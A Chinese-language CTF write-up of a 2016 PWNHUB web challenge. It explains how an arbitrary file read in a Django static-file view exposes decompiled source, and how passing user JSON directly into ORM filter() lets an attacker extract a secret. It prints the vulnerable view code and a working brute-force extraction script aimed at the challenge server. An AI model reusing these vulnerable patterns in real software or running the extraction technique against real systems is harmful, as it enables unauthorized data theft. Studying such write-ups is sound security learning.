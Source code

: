 ```yaml
---
id: 755
layout: post
title: 'PWNHUB Web第一题writeup'
date: 2016-12-05 20:04:00
author: virusdefender
tags: 
---
```


题目地址 http://54.223.46.206:8003/

首先在HTTP头中可以看到`Server:gunicorn/19.6.0 Django/1.10.3 CPython/3.5.2`，引用的站内资源只有一个js，然后回想起ph师傅的写过的Python Web安全的文章 http://www.lijiejie.com/python-django-directory-traversal/ ，发现在处理静态文件的时候有一个任意文件读取，但是任何`.py`结尾的文件都会提示403，其他的不会，考虑读取`pyc`，看了下自己的Django项目，Python 3.5的`pyc`都是在一个`__pycache__`目录中的，然后是`xxx.cpython-35.pyc`的文件名。

Django是一个MVC框架，默认的主要代码都在`models.py`和`views.py`，成功的得到pyc。然后使用`unpyc3` https://github.com/figment/unpyc3 得到了源码。

核心代码如下

```python
class StaticFilesView(generic.View):
    content_type = 'text/plain'

    def get(self, request, *args, **kwargs):
        filename = self.kwargs['path']
        # 任意文件读取就是这里
        filename = os.path.join(settings.BASE_DIR, 'students', 'static', filename)
        (name, ext) = os.path.splitext(filename)
        if ext in ('.py', '.conf', '.sqlite3', '.yml'):
            raise exceptions.PermissionDenied('Permission deny')
        try:
            return HttpResponse(FileWrapper(open(filename, 'rb'), 8192), content_type=self.content_type)
        except BaseException as e:
            raise Http404('Static file not found')
            
class LoginView(JsonResponseMixin, generic.TemplateView):
	template_name = 'login.html'
	def post(self, request, *args, **kwargs):
		data = json.loads(request.body.decode())
		stu = models.Student.objects.filter(**data).first()
		if not stu or stu.passkey != data['passkey']:
			return self._jsondata('', 403)
		else:
			request.session['is_login'] = True
			return self._jsondata('', 200)

class Student(models.Model):
    name = models.CharField('姓名', max_length=64, unique=True)
    no = models.CharField('学号', max_length=12, unique=True)
    passkey = models.CharField('密码', max_length=32)
    group = models.ForeignKey('Group', verbose_name='所属班级', on_delete=models.CASCADE, null=True, blank=True)


class Group(models.Model):
    name = models.CharField('班级名', max_length=64)
    information = models.TextField('介绍')
    secret = models.CharField('内部信息', max_length=128)
    created_time = models.DateTimeField('创建时间', auto_now_add=True)
```

可以看到直接将用户发送的数据作为filter的条件传递了，如果用户存在，而data中没有`passkey`就会造成500，如果用户不存在就会403，所以可以使用Django中的like查询。它的特点就是字段名后面添加两个下划线，接着才是搜索条件，可以作为参数传给filter。

```python
# 精确查询 where name="test"
Student.objects.filter(name="test")

# 按照字符串开头查询 where name="test%"
Student.objects.filter(name__startswith="test")

# 按照字符串包含查询 where name="%test%"
Student.objects.filter(name__contains="test")
```

其实这里还有个坑，但是后来给ph师傅说了之后还是填上了，防止题目过于难，就是这里Django使用的是sqlite3数据库，而sqlite3的like是不区分大小写的，而数据库里面存的确实是大小写混合的，然而实际上还是有两个解决方案的

  - 爆破，12位密码去除数字，实际组合是`2^10`左右，也并不大
  - 使用sql中的正则，类似`Studdent.objects.filter(name__regex="test")`，这样就和区分大小写的`contains`是一样的了。

当然这个问题并不需要用户的密码，使用相同的方式去获取secret就好了。语句是`Student.objects.filter(group__secret__contains="pwnhub")`。最终利用的代码是
 
```python
import requests
import json

import string
d = string.printable

passkey = "pwnhub"

while True:
    for item in d:
        r = requests.post("http://54.223.46.206:8003/login/", data=json.dumps({"group__secret__contains": passkey + item}))
        if r.status_code == 500:
            passkey += item
            print(passkey)
            break
    else:
        exit()
```

